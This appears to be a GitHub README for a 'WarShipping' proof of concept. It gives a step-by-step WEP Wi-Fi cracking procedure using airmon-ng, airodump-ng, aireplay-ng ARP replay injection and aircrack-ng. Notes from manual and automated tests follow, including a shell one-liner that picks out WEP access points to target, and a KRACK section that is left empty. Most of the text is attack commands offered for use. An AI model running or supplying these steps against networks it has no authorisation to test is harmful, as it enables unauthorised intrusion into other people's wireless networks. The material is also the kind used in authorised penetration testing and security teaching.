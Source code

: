 # WarShipping
WarShipping remixed as a proof of concept.

WEP cracking using airmon-ng
- iwconfig
- airmon-ng start <wireless card>
- airodump-ng <mon card>
- airodump-ng <mon card> --bssid <bssid> -w <write to file> file
(if theres not enough traffic to crack the password)
on another tab:
- aireplay-ng -3 -b <bssid> -h <host connected to network> <mon card>
(cracking the password)
- aircrack-ng <file>.cap

Test 0 (Manual attack)
- manual testing worked, arp poisoning aided but not required with active network.
- one terminal window required unless arp poisoning required.

Test 1 (Automation attempt)
- airodump-ng <mon card> -w <write to> file
- file .csv contains wireless points caught in monitor mode
- cat *.csv | grep -i wep | cut -d ',' -f 1
  - above bash oneliner isolates the bssid of each access point
  
WPA2 (KRACK attack)
- 
